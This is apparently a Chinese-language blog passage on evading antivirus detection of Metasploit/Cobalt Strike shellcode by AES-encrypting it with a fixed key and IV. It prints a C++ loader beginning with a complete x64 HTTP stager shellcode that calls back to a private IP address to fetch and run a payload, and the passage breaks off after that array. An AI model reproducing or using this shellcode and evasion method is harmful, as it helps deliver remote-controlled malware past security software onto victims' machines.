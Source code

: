 > 前段时间笔者做了下datacon的样本分析的题目，题目就是给了一堆海量的cs/msf 的样本，让你提取出来c2和其使用的编码以及回连端口；里面就提到了shikata编码，这个编码可以不停的迭代，msf中可以控制迭代的次数，比如我可以反复编码编码23次也可以100次；但是由于其自带的强特征，我们是非常好提取其迭代的次数的。并且非常好判断样本是否使用了shikata的编码；）

### 1、对抗shellcode特征检测

这里我们为了避免处理编码特征的隐藏，直接选用对shellcode进行aes（加密模式选择cbc固定key和iv）加密；因为aes是一个很多地方都会使用的加解密算法，所以杀软是不能检测aes这个加密特征的；否则误报率相当高；

```php
#include <windows.h>  
#include "AES.h"  
#include <iostream>  
#include <thread>  
using namespace std;  
​  
int main() {  
    //http x64 shellcode   
    unsigned char  plain\[\] \= "\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc8\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48\\x01\\xd0\\x66\\x81\\x78\\x18\\x0b\\x02\\x75\\x72\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0\\x66\\x41\\x8b\\x0c\\x48\\x44\\x8b\\x40\\x1c\\x49\\x01\\xd0\\x41\\x8b\\x04\\x88\\x48\\x01\\xd0\\x41\\x58\\x41\\x58\\x5e\\x59\\x5a\\x41\\x58\\x41\\x59\\x41\\x5a\\x48\\x83\\xec\\x20\\x41\\x52\\xff\\xe0\\x58\\x41\\x59\\x5a\\x48\\x8b\\x12\\xe9\\x4f\\xff\\xff\\xff\\x5d\\x6a\\x00\\x49\\xbe\\x77\\x69\\x6e\\x69\\x6e\\x65\\x74\\x00\\x41\\x56\\x49\\x89\\xe6\\x4c\\x89\\xf1\\x41\\xba\\x4c\\x77\\x26\\x07\\xff\\xd5\\x48\\x31\\xc9\\x48\\x31\\xd2\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x41\\x50\\x41\\x50\\x41\\xba\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xeb\\x73\\x5a\\x48\\x89\\xc1\\x41\\xb8\\x50\\x00\\x00\\x00\\x4d\\x31\\xc9\\x41\\x51\\x41\\x51\\x6a\\x03\\x41\\x51\\x41\\xba\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x59\\x5b\\x48\\x89\\xc1\\x48\\x31\\xd2\\x49\\x89\\xd8\\x4d\\x31\\xc9\\x52\\x68\\x00\\x02\\x40\\x84\\x52\\x52\\x41\\xba\\xeb\\x55\\x2e\\x3b\\xff\\xd5\\x48\\x89\\xc6\\x48\\x83\\xc3\\x50\\x6a\\x0a\\x5f\\x48\\x89\\xf1\\x48\\x89\\xda\\x49\\xc7\\xc0\\xff\\xff\\xff\\xff\\x4d\\x31\\xc9\\x52\\x52\\x41\\xba\\x2d\\x06\\x18\\x7b\\xff\\xd5\\x85\\xc0\\x0f\\x85\\x9d\\x01\\x00\\x00\\x48\\xff\\xcf\\x0f\\x84\\x8c\\x01\\x00\\x00\\xeb\\xd3\\xe9\\xe4\\x01\\x00\\x00\\xe8\\xa2\\xff\\xff\\xff\\x2f\\x58\\x34\\x5a\\x77\\x00\\xbd\\xa3\\x09\\x05\\x92\\x94\\xc5\\x2c\\x92\\x73\\x8c\\x7d\\xfe\\x2c\\xa4\\x45\\xe8\\x6c\\xab\\xa5\\x52\\xec\\x1d\\x16\\x89\\x43\\x65\\x7c\\x19\\x1e\\x3e\\xc5\\x49\\x2f\\x52\\xf4\\xdc\\x29\\x12\\x73\\x35\\x72\\x89\\xba\\x04\\xdf\\xc1\\xd9\\x2d\\x20\\xec\\x91\\x82\\x56\\x29\\xc3\\x29\\x23\\x0f\\xaa\\x25\\xc1\\x6b\\x14\\x03\\x31\\x9e\\x39\\x88\\x39\\xb0\\xde\\xd8\\x00\\x55\\x73\\x65\\x72\\x2d\\x41\\x67\\x65\\x6e\\x74\\x3a\\x20\\x4d\\x6f\\x7a\\x69\\x6c\\x6c\\x61\\x2f\\x34\\x2e\\x30\\x20\\x28\\x63\\x6f\\x6d\\x70\\x61\\x74\\x69\\x62\\x6c\\x65\\x3b\\x20\\x4d\\x53\\x49\\x45\\x20\\x38\\x2e\\x30\\x3b\\x20\\x57\\x69\\x6e\\x64\\x6f\\x77\\x73\\x20\\x4e\\x54\\x20\\x35\\x2e\\x31\\x3b\\x20\\x54\\x72\\x69\\x64\\x65\\x6e\\x74\\x2f\\x34\\x2e\\x30\\x3b\\x20\\x2e\\x4e\\x45\\x54\\x20\\x43\\x4c\\x52\\x20\\x32\\x2e\\x30\\x2e\\x35\\x30\\x37\\x32\\x37\\x29\\x0d\\x0a\\x00\\xc1\\x01\\x5f\\x90\\xbe\\x7f\\x53\\xbb\\xa4\\xe1\\x6d\\x15\\x35\\x12\\x19\\xa0\\xb9\\xc3\\x9e\\xa6\\xa8\\xb4\\xb9\\x68\\x90\\x78\\xbf\\xab\\x92\\xc7\\x49\\xf5\\x56\\x0f\\xab\\xf0\\x17\\x6d\\x10\\x18\\xf0\\x1c\\xe5\\xed\\x23\\x3e\\x29\\x77\\x27\\xd2\\x22\\x04\\x09\\xa4\\x8b\\x0c\\x74\\xb6\\x56\\x02\\xe1\\xa0\\x3d\\x5e\\x66\\xe9\\x3c\\x93\\x1e\\x4b\\xb5\\xa9\\x60\\xcc\\x22\\x08\\x97\\x5f\\x56\\x60\\x4c\\x3c\\xb4\\x29\\xb2\\x16\\xed\\x7f\\xe9\\x54\\x64\\xf5\\xf7\\xbd\\x4c\\xd4\\x7d\\x33\\x78\\x76\\x7d\\xa8\\xe3\\x43\\xf2\\x8f\\x2d\\x1f\\x31\\xf0\\xb9\\x84\\xf7\\x1f\\x82\\x4b\\x07\\x22\\x1e\\x8d\\x1f\\xf0\\xc8\\xc1\\x06\\xb8\\xd7\\x25\\x6a\\x69\\xc7\\x5d\\x74\\x5c\\xbb\\x2e\\x3a\\xb7\\xd0\\xa1\\x62\\x74\\xc7\\x3e\\x14\\x7e\\x3f\\x3f\\x56\\xa1\\xdc\\x0c\\x1e\\xec\\xb5\\x59\\x28\\x52\\x23\\xaf\\x68\\x79\\xb5\\xf1\\xb4\\x50\\x7a\\xab\\xe4\\x28\\xf2\\x91\\x0c\\x73\\xdc\\x4c\\x49\\xc6\\xb7\\xa9\\xa9\\x8c\\x7b\\x24\\x51\\x23\\xc8\\x93\\xe2\\xd7\\x96\\x95\\x56\\x0c\\x7b\\x6a\\xad\\xaf\\x85\\xc9\\xe3\\xab\\x7c\\x35\\xfe\\x00\\x41\\xbe\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x48\\x31\\xc9\\xba\\x00\\x00\\x40\\x00\\x41\\xb8\\x00\\x10\\x00\\x00\\x41\\xb9\\x40\\x00\\x00\\x00\\x41\\xba\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x48\\x93\\x53\\x53\\x48\\x89\\xe7\\x48\\x89\\xf1\\x48\\x89\\xda\\x41\\xb8\\x00\\x20\\x00\\x00\\x49\\x89\\xf9\\x41\\xba\\x12\\x96\\x89\\xe2\\xff\\xd5\\x48\\x83\\xc4\\x20\\x85\\xc0\\x74\\xb6\\x66\\x8b\\x07\\x48\\x01\\xc3\\x85\\xc0\\x75\\xd7\\x58\\x58\\x58\\x48\\x05\\x00\\x00\\x00\\x00\\x50\\xc3\\xe8\\x9f\\xfd\\xff\\xff\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x31\\x34\\x38\\x2e\\x31\\x33\\x37\\x00\\x00\\x00\\x22\\x90";  

```